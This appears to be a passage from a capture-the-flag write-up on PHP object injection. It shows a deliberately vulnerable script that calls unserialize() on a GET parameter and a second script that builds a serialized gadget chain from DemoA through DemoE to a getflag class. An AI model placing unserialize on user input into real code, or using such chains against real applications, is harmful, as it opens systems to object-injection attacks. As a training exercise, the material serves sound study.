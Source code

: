 ```php
        echo $this->a;
    }
}
class DemoE{
    public $a;
    public function __toString(){
        $this->a->flag();
        return "very close!!!";
    }
}
class getflag{
    public function flag(){
        echo "flag{xxx}";
    }
}
unserialize($_GET['a']);
?>
```

```php
<?php
class DemoA{
    public $a;
}
class DemoB{
    public $a;
}
class DemoC{
    public $a;
}
class DemoD{
    public $b;
}
class DemoE{
    public $a;
}
class getflag{
}
$a=new DemoA();
$b=new DemoB();
$c=new DemoC();
$d=new DemoD();
$e=new DemoE();
$flag=new getflag();
$a->a=$b;
$b->a=$c;
$c->a=$d;
$d->b=$e;
$e->a=$flag;
echo serialize($a);
?>
```
